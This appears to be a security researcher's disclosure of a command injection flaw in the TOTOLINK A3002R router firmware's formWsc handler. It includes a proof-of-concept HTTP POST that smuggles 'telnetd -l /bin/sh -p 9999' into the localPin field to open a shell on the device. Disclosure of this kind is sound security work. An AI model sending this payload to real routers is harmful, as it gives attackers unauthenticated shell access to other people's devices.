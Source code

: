 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A3002R

Version:V1.1.1-B20200824.0128

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an command Injection vulnerability TOTOLINK router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `boa` binary:

In `formWsc` function, `peerPin、localPin、targetAPSsid` is directly passed by the attacker, so we can control the `peerPin、localPin、targetAPSsid` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `localPin` as **`telnetd -l /bin/sh -p 9999`** , and the router will excute it,such as:

```http
POST /boafrm/formWsc HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 152
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/wlwps.htm

submit-url=%2Fwlwps.htm&resetUnCfg=0&localPin=`telnetd -l /bin/sh -p 9999`&targetAPMac=&targetAPSsid=&peerPin=&configVxd=off&resetRptUnCfg=0&peerRptPin=
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

